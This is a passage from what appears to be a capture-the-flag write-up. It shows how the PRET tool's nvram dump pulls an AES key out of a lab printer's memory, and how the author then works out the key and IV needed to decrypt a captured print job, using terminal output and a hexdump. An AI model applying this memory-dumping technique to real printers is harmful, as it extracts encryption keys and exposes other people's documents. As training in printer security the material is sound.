 Second, the keys are stored in memory:

> The printer encryption keys are randomly generated when the product is started and securely stored in a protected memory area.

The help menu for PRET had a command, `nvram`, which has an option to dump all RAM to a file:

```
10.10.10.201:/pjl/jobs> nvram
NVRAM operations:  nvram <operation>
  nvram dump [all]         - Dump (all) NVRAM to local file.
  nvram read addr          - Read single byte from address.
  nvram write addr value   - Write single byte to address.

```

On running, at the very end is an interesting reference to a key:

```
10.10.10.201:/> nvram dump                                                          
Writing copy to nvram/10.10.10.201
.........................................................................................................................................................................
.........................................................................................................................................................................
.........................................................................................................................................................................
.........................................................................................................................................................................
.........................................................................................................................................................................
.........................................................................................................................................................................
............................................................................k...e....y.....13vu94r6..643rv19u

```

#### Decrypt File

At this point I have a string that’s associated with the key: `13vu94r6..643rv19u`, and I have a blob that looks like encrypted data using AES. It took me a long time of frustrating trial and error, but I figured out two things.
1. The key is actually `13vu94r6643rv19u`. This makes some sense since it is now exactly 16 bytes, which fits the expected key size. I’m not sure why those two dots show up in the middle of the string.
2. I expected the first 16 bytes of the blob to be the IV. But pulling those out wasn’t working for me. Looking at a hexdump of the file, there was something weird about the first eight bytes:

   ```

   root@kali# xxd queued.raw  | head
   00000000: 55f8 0100 0000 0000 ce88 34b4 77e9 e7de  U.........4.w...
   00000010: c754 db83 328f f9e3 0eaa 7afb 36a6 af42  .T..2.....z.6..B
   00000020: 4c72 3f38 a4bb c672 fc45 e481 1901 b8e3  Lr?8...r.E......
   00000030: 0079 df79 ff6d 0818 f8bb ec23 fee1 84d4  .y.y.m.....#....
   00000040: 12e6 2f73 2da7 f60b fb08 955c 3e4c 28a9  ../s-......\>L(.
   00000050: 9d7a fbc4 8483 8d54 d050 bf6e b24f 0759  .z.....T.P.n.O.Y
   00000060: 14f6 2b70 f4c2 f415 ea93 fbf0 cdf4 7705  ..+p..........w.
   00000070: 6a03 45a8 f3c8 b59c 6a1f 133a e82d 5e5d  j.E.....j..:.-^]
   00000080: 2776 6570 61a8 d4d0 bbd2 b60b 29bd 7206  'vepa.......).r.
   00000090: b239 7c55 6151 8bf9 1026 bf98 b006 f695  .9|UaQ...&......

   ```
